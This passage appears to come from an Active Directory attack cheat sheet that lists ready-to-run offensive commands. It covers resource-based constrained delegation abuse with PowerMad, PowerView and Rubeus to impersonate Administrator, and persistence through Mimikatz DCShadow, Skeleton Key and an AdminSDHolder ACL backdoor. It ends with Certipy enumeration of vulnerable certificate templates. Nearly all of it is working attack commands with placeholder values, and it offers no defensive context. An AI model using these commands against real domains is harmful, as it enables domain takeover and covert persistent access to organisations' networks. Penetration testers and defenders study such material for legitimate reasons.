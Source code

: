#### **Windows:**
```powershell
# PowerMad + PowerView
New-MachineAccount -MachineAccount FAKE -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
Set-DomainRBCD -Identity TARGET$ -DelegateFrom FAKE$

# Rubeus
.\Rubeus.exe s4u /user:FAKE$ /rc4:HASH /impersonateuser:Administrator /msdsspn:cifs/TARGET.domain.com /ptt
```

---

## 🔐 **Persistence**

### **1. DCShadow**

#### **Windows:**
```powershell
# Mimikatz
lsadump::dcshadow /object:CN=Administrator,CN=Users,DC=domain,DC=com /attribute:userAccountControl /value:512
lsadump::dcshadow /push
```

### **2. Skeleton Key**

#### **Windows:**
```powershell
# Mimikatz
misc::skeleton
# Password becomes "mimikatz"
```

### **3. AdminSDHolder**

#### **Windows:**
```powershell
# PowerView
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=com' -PrincipalIdentity username -Rights All
```

---

## 🛠️ **Advanced Certificate Attacks (ADCS)**

### **🔍 Certificate Enumeration**

#### **Linux:**
```bash
# Certipy Complete Enumeration
certipy find -u username@domain.com -p password -dc-ip DC_IP -stdout
certipy find -u username@domain.com -p password -dc-ip DC_IP -vulnerable -enabled
certipy ca -u username@domain.com -p password -dc-ip DC_IP -ca CA_NAME
```
